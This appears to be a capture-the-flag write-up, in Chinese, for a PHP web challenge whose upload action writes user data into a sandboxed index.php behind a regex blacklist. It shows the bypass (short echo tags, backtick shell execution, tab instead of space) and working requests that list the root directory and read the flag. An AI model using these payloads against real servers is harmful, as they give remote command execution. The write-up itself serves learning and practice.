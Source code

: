 ![[Pasted image 20230105095843.png|500]]

---
```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

`php`被过滤，使用`php`的`echo`标记简写`<?=`绕过

由于反引号`` ` ``没有被过滤，使用反引号来执行`shell`命令

空格被过滤，使用水平制表符`%09`代替

```php
/?action=pwd
```

```
sandbox/xxx/
```

```php
/?action=upload&data=<?=`ls%09/`?>
```

```php
/sandbox/xxx/
```

```
bin boot dev etc flllllll1112222222lag home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var 
```

```php
/?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

```php
/sandbox/xxx/
```

```
flag{7fb04787-f42b-4b09-aceb-101738202f79} 
```

#Web #PHP #shell #bypass #RCE